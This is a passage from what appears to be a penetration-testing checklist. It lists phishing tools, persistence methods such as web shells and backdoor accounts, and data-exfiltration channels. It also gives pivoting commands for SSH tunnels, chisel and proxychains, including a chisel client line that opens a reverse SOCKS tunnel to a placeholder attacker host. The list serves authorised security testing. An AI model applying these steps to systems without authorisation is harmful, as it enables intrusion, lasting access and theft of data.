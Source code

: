 
## SOCIAL ENGINEERING

### Phishing
- [ ] `gophish` - Phishing framework
- [ ] `setoolkit` - Social Engineering Toolkit
- [ ] Email spoofing testing
- [ ] Credential harvesting pages

---

## POST-EXPLOITATION & PIVOTING

### Maintaining Access
- [ ] Web shells
- [ ] SSH keys
- [ ] Scheduled tasks/cron jobs
- [ ] Registry run keys (Windows)
- [ ] Backdoor accounts

### Pivoting & Tunneling
- [ ] **SSH Tunneling**
  - [ ] Local: `ssh -L LOCAL_PORT:TARGET:TARGET_PORT user@jump_host`
  - [ ] Remote: `ssh -R REMOTE_PORT:localhost:LOCAL_PORT user@target`
  - [ ] Dynamic (SOCKS): `ssh -D 1080 user@target`

- [ ] **Chisel**
  - [ ] Server: `chisel server --reverse --port 8080`
  - [ ] Client: `chisel client ATTACKER:8080 R:socks`
  - [ ] Use with proxychains

- [ ] **Metasploit**
  - [ ] `autoroute`
  - [ ] `socks_proxy`
  - [ ] Port forwarding

- [ ] **Proxychains**
  - [ ] Configure: `/etc/proxychains4.conf`
  - [ ] Use: `proxychains nmap -sT TARGET`

### Data Exfiltration
- [ ] HTTP POST
- [ ] DNS exfiltration
- [ ] ICMP tunneling
- [ ] Steganography
- [ ] Cloud storage (if accessible)

---

## EVIDENCE COLLECTION & DOCUMENTATION
